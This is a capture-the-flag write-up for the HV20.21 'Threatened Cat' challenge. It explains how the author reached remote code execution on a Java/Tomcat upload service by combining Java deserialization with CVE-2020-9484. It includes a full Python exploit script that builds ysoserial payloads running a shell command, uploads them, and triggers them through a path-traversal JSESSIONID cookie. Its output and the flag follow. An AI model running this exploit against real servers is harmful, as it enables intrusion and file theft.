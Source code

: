 # HV20.21 Threatened Cat

For this challenge, we get access to a web application that allows us to upload files. The web application will scan the file (basic content detection, probably implemented using the `file` command) and tell us whether the file is considered dangerous. Our goal is to disclose the flag, which is stored on the server at `/usr/bin/catnip.txt`.

After some basic information gathering, I found out that the application was built in Java (we can see it from the error message when uploading a file that is larger than the allowed limit). From the output of the application, we can see that our files are stored at `/usr/local/uploads/` on the server. My first guess was to upload a JSP file and gain remote code execution, but of course it did not work (honestly this would have been too easy).

As the challenge description already provided the correct path for the flag file, my first assumption was that the application is most likely vulnerable to a local file inclusion attack / path traversal attack. I tried various payloads to mess with both, the upload and the download functionality, but nothing worked out as expected. Moreover, I did some testing for other commonly known attacks like command injection and XXE (XML External Entity) but still was not able to find anything that would be exploitable.

Maybe there is a special reason why this challenge was built in Java. I searched for some more Java-specific attacks and realized that this might also be a deserialization attack. I tried my luck and generated a malicious serialized Java object created using the [ysoserial](https://github.com/frohoff/ysoserial) tool. Out of the sudden, the output of the application changed: `[W]: Exactly this kind of things is threatening this cat`.

This confirms that I was on the right track, so I tried to create a payload that copies the file with our flag to the publicly accessible folder (`/usr/local/uploads/`). Unfortunately, this did not work so I had to do some research on how this type of attack could work in our scenario. I figured out that maybe my payload was never triggered because nobody yet tried to deserialize the file I provided. After some more googling, I found an interesting [CVE-2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484) which could help us here.

This CVE describes a [Tomcat](http://tomcat.apache.org/) vulnerability (now the cat focus of the whole challenge finally makes sense). Vulnerable versions of Tomcat would allow an attacker to specify a malicious value for `JSESSIONID` (a filename). The server would then append the `.session` extension to the provided value and try to load (deserialize) the file.

This means that after uploading our exploit payload, we need to send another request with a crafted `JSESSIONID` cookie that points to our uploaded file. Afterwards, Tomcat will deserialize our payload and trigger the exploit. As I was not exactly sure what `ysoserial` payload is the correct one, I created a small [python program](./uploader.py) that uploads each of the payloads, automatically triggers the exploit and then checks if the `catnip.txt` was correctly copied over to the public folder:

```python
#!/usr/bin/env python3

import requests
from os import system
from time import sleep

url = 'https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/'

def upload_file(filename):
    with open(filename, 'rb') as input_file:
        data = input_file.read()

    files = {'file': (filename, data)}

    response = requests.post(url, files=files)
    if not "harmless" in response.text:
        print(f"Valid payload: {filename}")
    else:
        print("Payload not valid")

payloads = ["BeanShell1", "C3P0", "Clojure", "CommonsBeanutils1", "CommonsCollections1", "CommonsCollections2",
    "CommonsCollections3", "CommonsCollections4", "CommonsCollections5", "CommonsCollections6", "FileUpload1",
    "Groovy1", "Hibernate1", "Hibernate2", "JBossInterceptors1", "JRMPClient", "JRMPListener", "JSON1", "JavassistWeld1",
    "Jdk7u21", "Jython1", "MozillaRhino1", "Myfaces1", "Myfaces2", "ROME", "Spring1", "Spring2", "URLDNS", "Wicket1"]

for payload in payloads:
    file = f"payload_{payload}.session"
    system(f"java -jar ysoserial-master-6eca5bc740-1.jar {payload} 'cp /usr/bin/catnip.txt /usr/local/uploads/' > {file} 2>/dev/null")

    # 1. Upload the payload
    upload_file(file)

    # 2. Trigger the exploit
    fake_session_id = f'JSESSIONID=../../../../../usr/local/uploads/payload_{payload}'
    headers = { 'Cookie': fake_session_id }
    print(url + "index.jsp")
    response = requests.get(url + "index.jsp", headers=headers)

    # 3. Check if it worked
    response = requests.get(url + "files/catnip.txt")
    if response.status_code != 404:
        print(response.text)
        exit(0)

    system(f"rm {file}")
    print("------------------------------------------------")
```

Running this script gave me access to the flag. In my case, the first working `ysoserial` payload was `CommonsCollections2`:

```bash
➜  21 git:(main) ✗ ./uploader.py
Valid payload: payload_BeanShell1.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_C3P0.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_Clojure.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_CommonsBeanutils1.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_CommonsCollections1.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_CommonsCollections2.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
HV20{!D3s3ri4liz4t10n_rulz!}
```

**Flag:** HV20{!D3s3ri4liz4t10n_rulz!}
